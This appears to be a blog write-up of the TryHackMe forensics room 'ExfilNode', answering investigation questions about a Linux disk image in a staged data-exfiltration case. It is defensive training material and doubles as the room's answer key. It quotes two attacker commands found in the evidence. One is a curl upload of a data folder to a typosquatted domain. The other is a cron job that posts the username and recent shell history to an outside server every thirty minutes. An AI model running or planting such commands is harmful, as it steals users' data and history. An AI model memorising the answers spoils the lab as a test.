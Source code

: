 ```yaml
---
layout: post
title: TryHackMe/Medium/ExfilNode
abbrlink: 27161c4abb8b4244886ab8d220b52b48
tags:
  - log analysis
  - linux forensics
  - blue team
categories:
  - Labs
  - TryHackMe
  - 2. Medium
  - ExfilNode
date: 1744401874021
updated: 1744406276546
---
```


<https://tryhackme.com/room/exfilnode>

# The End

## Room Prerequisites

- [Linux Forensics](https://tryhackme.com/room/linuxforensics)
- [Linux Incident Surface](https://tryhackme.com/room/linuxincidentsurface)
- [Linux Logs Investigations](https://tryhackme.com/room/linuxlogsinvestigations)
- [EXT Analysis](https://tryhackme.com/room/extanalysis)

**Note**: Before we continue to dive into the scenario, it is important to note that this challenge is the continuation of the [DiskFiltration room](https://tryhackme.com/room/diskfiltration), where Liam's company-provided machine was being investigated in a data exfiltration case. While it is recommended to go through that room first to get a better understanding of the story's context, it's not mandatory. You can also solve this room independently and test your Linux investigation skills.

## Scenario

The analysis of Liam's company-provided Windows workstation in the DiskFiltration room revealed major evidence of his involvement in the TECH THM's data exfiltration. However, he could argue that he was framed as he did not own the workstation. So, to uncover the whole truth and gather all the possible undeniable evidence, the investigators turned their attention to Liam's personal workstation (Linux machine), which was suspected to have played a key role in handling the exfiltrated data.

As this was Liam's personal workstation, he had full control over covering his tracks more effectively. But was he careful enough? It seems like the investigators not only revealed more about the external entity Liam worked with but also exposed a betrayal: Liam was double-crossed.

## Starting the Machine

Let’s start the virtual machine by pressing the `Start Machine` button below. The machine will start in split view.

In case the VM is not visible, use the blue `Show Split View` button at the top of the page.

Liam's personal workstation's disk is mounted at `/mnt/liam_disk`, and the disk image is available at `/home/ubuntu`. You can run commands on the mounted disk.

**Note**: If you get the error `grep: /mnt/liam_disk/var/log/auth.log: binary file matches` with any log file, use `grep -a` which will treat the file as text. An example is given below:

`grep -i -a "string-pattern" /mnt/liam_disk/var/log/auth.log`

Additionally, you can utilize the Autopsy tool to assist with the analysis. However, Autopsy is optional. All the questions in this room can be answered by running commands on the mounted disk.

To use Autopsy, open a terminal and navigate to `/home/ubuntu/autopsy/autopsy-4.21.0/bin` and execute the command .`/autopsy --nosplash` to execute it. The GUI of the tool will open. Now, select `Open Recent Case` from here and open the recent case named `Liam_Personal_Workstation` in which we have already imported the disk image.

***

## Q & A

1. When did Liam last logged into the system? (Format: YYYY-MM-DD HH:MM:SS)
   *2025-02-28 10:59:07*
   **Hint**: Focus on the graphical logins only.

   > Run the `grep` command on the `auth.log` and search for the string `logind` then look for the last login by the user `gdm` which is the Gnome Desktop Manager and the following login by the user `liam` is the last time Liam logged in via graphical login:
   > `grep -i -a "logind" /mnt/liam_disk/var/log/auth.log 
   > `

2. What was the timezone of Liam’s device?
   *America/Toronto*

> `ls -l /mnt/liam_disk/etc/localtime`

3. What is the serial number of the USB that was inserted by Liam?
   *2651931097993496666*

   > Run the command `cat /mnt/liam_disk/var/log/syslog | grep SerialNumber` and look for the `SerialNumber` field for the latest log entry

4. When was the USB connected to the system? (Format: YYYY-MM-DD HH:MM:SS)
   *2025-02-28 10:59:25*

   > Timestamp from the previous answer

5. What command was executed when Liam ran 'transferfiles'?
   *`cp -r \"/media/liam/46E8E28DE8E27A97/Critical Data TECH THM\" /home/liam/Documents/Data`*

   > Last line of Liam's `.bashrc` file contains the alias for `transferfiles` and the command it executes: `cat /mnt/liam_disk/home/liam/.bashrc`

6. What command did Liam execute to transfer the exfiltrated files to an external server?
   *`curl -X POST -d @/home/liam/Documents/Data http://tehc-thm.thm/upload`*

   > There is a `curl` command Liam runs which is using the `POST` method to upload data to the URL `tehc-thm.thm/upload` which is a typo of the company's name to avoid detection in the `.bash_history` log: `cat /mnt/liam_disk/home/liam/.bash_history`

7. What is the IP address of the domain to which Liam transferred the files to?
   *5.45.102.93*

   > Inside the `/etc/hosts` file the misspelled URL is assigned to the attacker's server: `cat /mnt/liam_disk/etc/hosts`

8. Which directory was the user in when they created the file 'mth'?
   *`/home/liam`*

   > Search for the `mth` file: `find /mnt/liam_disk/ -type f -name 'mth' 2>/dev/null`

9. Remember Henry, the external entity helping Liam during the exfiltration? What was the amount in USD that Henry had to give Liam for this exfiltration task?
   *10000*

   > Read the `mth` file: `cat /mnt/liam_disk/home/liam/mth`

10. When was the USB disconnected by Liam? (Format: YYYY-MM-DD HH:MM:SS)
    *2025-02-28 11:44:00*

    > `cat /mnt/liam_disk/var/log/syslog | grep 'USB disconnect'`

11. There is a .hidden/ folder that Liam listed the contents of in his commands. What is the full path of this directory?
    */home/liam/Public*

    > There is another `.hidden` directory and we can find it by running: `find /mnt/liam_disk/ -name '.hidden' 2>/dev/null`

12. Which files are likely timstomped in this .hidden/ directory (answer in alphabetical order, ascending, separated by a comma. e.g example1.txt,example2.txt)
    *file3.txt,file7.txt*

    > Run `ls -lah` on the `.hidden/` directory and look for unusual timestamps: `ls -lah /mnt/liam_disk/home/liam/Public/.hidden/`

13. Liam thought the work was done, but the external entity had other plans. Which IP address was connected via SSH to Liam's machine a few hours after the exfiltration?
    *94.102.51.15*

    > Search the `auth.log` for SSH connections: `cat /mnt/liam_disk/var/log/auth.log | grep -a 'ssh'`

14. Which cronjob did the external entity set up inside Liam’s machine?
    *`*/30 * * * * curl -s -X POST -d "$(whoami):$(tail -n 5 ~/.bash_history)" http://192.168.1.23/logger.php`*

    > Last line of the `/var/spool/cron/crontabs/liam` file. You will need to use `sudo` to read the contents: `sudo cat /mnt/liam_disk/var/spool/cron/crontabs/liam`
